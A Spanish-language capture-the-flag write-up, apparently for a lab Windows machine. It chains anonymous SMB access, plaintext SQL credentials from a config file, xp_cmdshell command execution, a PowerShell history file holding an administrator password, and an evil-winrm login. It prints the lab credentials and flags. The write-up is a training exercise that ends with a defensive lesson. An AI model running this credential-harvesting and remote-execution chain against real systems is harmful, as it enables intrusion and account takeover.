-----------------
- Tags: #protocols #MSSQL #SMB #PowerShell #Reconnaisance #remotecodeexecution #cleartextcredentials #informationdisclosure #anonymous 
----------




## 🔍 Enumeración inicial

Empezaremos buscando cual puerto TCP tiene abierto un DB server.



Haremos un nmap con los 1000 ports más importantes:

```bash
sudo nmap -sS --top-ports 1000 -Pn 10.129.116.211
```




✔️ Tenemos **SMB (445)** y **Microsoft SQL Server (1433)**.

## 📂 Enumeración de recursos compartidos SMB


Para la siguiente , nos piden:



Buscaremos los recursos compartidos por Samba, accediendo anónimamente con smbclient:

Y vemos que encontramos un recurso compartido llamado "backups" .

```bash
smbclient -L //10.129.116.211 -N
```

**Recursos descubiertos**:


✅ Recurso útil: `backups`

## 📥 Acceso a backups y extracción de credenciales


Nos está pidiendo en la siguiente tarea, la contraseña del archivo de SMB:



Lo montaremos, buscaremos el archivo correspondiente, y lo descargaremos en nuestra máquina.

```bash
smbclient //10.129.116.211/backups -N
```



📦 Descargamos el archivo:

```bash
smb: \> get prod.dtsConfig
```

```bash
cat prod.dtsConfig
```

📌 **Credenciales encontradas**:

```bash
Password = M3g4c0rp123
USER ID  = ARCHETYPE\sql_svc
```




## 🛠 Acceso al SQL Server con impacket




Viendo estas tareas , nos tendremos que conectar con msqqclient.py (a SQL SERVER) con el usuario y la contraseña que hemos visto en el prod.dtsConfig:

Usaremos impacket-mssqlclient para conectarnos:

```bash
impacket-mssqlclient ARCHETYPE/sql_svc@10.129.116.211 -windows-auth
```



## ⚙️ Activación de xp_cmdshell

Se habilita `xp_cmdshell` para ejecutar comandos del sistema desde MSSQL:

```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```



🔧 Ahora podemos ejecutar comandos del sistema Windows desde SQL Server.

Una vez que **ejecutamos comandos en el sistema a través de `xp_cmdshell`**, el siguiente paso es **buscar información sensible**. Lo más valioso: contraseñas.

Como no podemos navegar con `ls` o `explorer`, pensamos como un atacante:

**Usuarios suelen guardar contraseñas en:**
    
    - Archivos `.txt`, `.ini`, `.config` en sus escritorios o documentos.
        
    - Scripts `.ps1`, `.bat`, `.vbs` usados en tareas automatizadas.
        
    - 🟩 **Historial de comandos escritos en PowerShell (como si fuera el `.bash_history` de Linux)**.


En esta tarea, dentro del servidor de SQL con el user, buscamos la flag:


## 🧪 Ejecución de comandos y búsqueda de la user flag

```bash
EXEC xp_cmdshell 'type C:\\Users\\sql_svc\\Desktop\\user.txt';
```



✅ **Flag de usuario**:

*3e7b102e78218e935bf3f4951fec21a3*

### 📌 ¿Qué archivo guarda los comandos ejecutados en PowerShell?

👉 **`ConsoleHost_history.txt`**

Es un archivo que **guarda los últimos comandos escritos en PowerShell** por un usuario. Está en una ruta **por defecto**, dependiendo del usuario conectado:

`C:\\Users\\<usuario>\\AppData\\Roaming\\Microsoft\\Windows\PowerShell\\PSReadLine\\ConsoleHost_history.txt`

Ejectuaremos la ruta en cuestión:

```bash
EXEC xp_cmdshell 'type C:\\Users\\sql_svc\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadLine\\ConsoleHost_history.txt';
```



🔍 **Resultado**:

```bash
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

💥 ¡Aparece el comando que usó el admin con su contraseña! Porque el admin probablemente **hizo un `net use` con su contraseña escrita manualmente**, y eso **quedó registrado en ese historial**.



## 🔐 Conexión como administrador (Evil-WinRM)

### 🎯 Objetivo:

Acceder al sistema Windows con **máximos privilegios (administrador)** para poder leer la flag de `root.txt`, ejecutar comandos críticos, y completar la post-explotación.

### 🧠 ¿Qué sabíamos hasta este punto?

1. Teníamos acceso limitado al sistema a través de `mssqlclient.py` (con usuario `sql_svc`).
    
2. A través del comando:

	EXEC xp_cmdshell 'type C:\\Users\\sql_svc\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadLine\\ConsoleHost_history.txt'

descubrimos que **el administrador usó un comando `net use` con su propia contraseña** escrita a mano:

	net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!


### 🛠️ ¿Qué es Evil-WinRM y por qué lo usamos?

**Evil-WinRM** es una herramienta que aprovecha el protocolo **WinRM (Windows Remote Management)** para obtener una shell interactiva en sistemas Windows **cuando tenemos credenciales válidas**.

🟩 Es la herramienta estándar para conectarse con credenciales válidas como `Administrator`.


### 🧪 Comando usado:

	evil-winrm -i (IP) -u administrator -p 'MEGACORP_4dm1n!!'

**Parámetros:**

- `-i`: Dirección IP de la máquina víctima.
    
- `-u`: Usuario válido (`administrator`).
    
- `-p`: Contraseña que obtuvimos desde `ConsoleHost_history.txt`.
    

✅ Resultado: Accedemos como `Administrator`, con shell PowerShell **completa y privilegiada**.



```bash
evil-winrm -i 10.129.116.211 -u administrator -p 'MEGACORP_4dm1n!!'
```




## 📁 Exploración y obtención de la root flag

Una vez dentro, se puede hacer lo siguiente:



✅ **Flag de root**:

*b91ccec3305e98240082d4474b848528*

Y así leer la flag final de la máquina (`root.txt`) y **confirmar que hemos comprometido completamente el sistema**.

### 🧩 ¿Por qué esta técnica es tan efectiva?

- Muchos administradores escriben contraseñas directamente en PowerShell.
    
- El historial **no se borra por defecto**.
    
- Si no usan seguridad adicional (BitLocker, historial encriptado...), ese archivo es **una mina de oro**.
    
- Usar `evil-winrm` **permite acceso total con esa contraseña** sin necesidad de exploits adicionales.


## ✅ Conclusión final

- Se descubrió un **servidor Microsoft SQL expuesto sin protección**, accesible vía SMB.
    
- Se extrajo un archivo `.dtsConfig` que contenía **credenciales en texto plano**.
    
- Se usó `impacket-mssqlclient` para ejecutar comandos en el sistema mediante `xp_cmdshell`.
    
- Se obtuvo acceso a **PowerShell history**, donde encontramos la contraseña del **usuario administrador**.
    
- Usando **Evil-WinRM**, conseguimos acceso completo al sistema y extraímos ambas flags.
    

🧠 **Lección aprendida**:  
Guardar contraseñas en scripts o archivos de configuración y no limpiar el historial de PowerShell puede suponer una brecha crítica. La herramienta `evil-winrm` demuestra su eficacia al permitir acceso remoto total con credenciales filtradas, sin necesidad de exploits.